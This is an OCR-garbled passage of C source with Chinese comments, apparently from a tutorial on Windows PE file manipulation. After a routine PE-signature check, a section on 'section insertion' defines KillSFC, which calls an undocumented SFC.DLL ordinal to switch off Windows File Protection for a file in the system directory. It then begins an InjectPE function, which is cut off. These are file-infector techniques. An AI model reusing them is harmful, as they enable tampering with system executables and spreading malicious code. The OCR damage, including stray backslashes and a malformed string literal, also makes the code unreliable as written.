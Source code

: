                     if (ntHeader.Signature == IMAGE\_NT\_SIGNATURE) //pe\
                    {\
                        bIsPe = TRUE;\
                    }\
                }\
            }\
        }\
    }\
    ::CloseHandle(hFile); //与上面的CreateFile区对写\
    if (bIsPe)\
    {\
        MessageBoxA(NULL, \"is a pe file\", \"\", MB\_OK);\
    }\
    else\
    {\
        MessageBoxA(NULL, \"not a pe file\", \"\", MB\_OK);\
    }\
    return FALSE;\
}

2.实现节插入操作：

\#include \<stdio.h\>

\#include\<windows.h\>

\#include\<TCHAR.h\>

\#include \<shlwapi.h\>

typedef DWORD WINAPI SfcFileException(DWORD dwUnknown0, PWCHAR pwszFile, DWORD dwUnknown1);

void KillSFC()

{//nvir();

WCHAR drvpath\[MAX\_PATH\]={0};

GetSystemDirectoryW(drvpath,sizeof(drvpath));

wcscat(drvpath,C\"\\\\test.exe\");

HMODULE hModule = LoadLibraryA(\"SFC.DLL\");

SfcFileException \*SfcFileExc = (SfcFileException (\_\_stdcall \*))GetProcAddress(hModule,(LPCSTR)5);

SfcFileExc(0,drvpath,-1);

FreeLibrary(hModule);

return;

}

int InjectPE()

{

IMAGE\_NT\_HEADERS ntHeader;
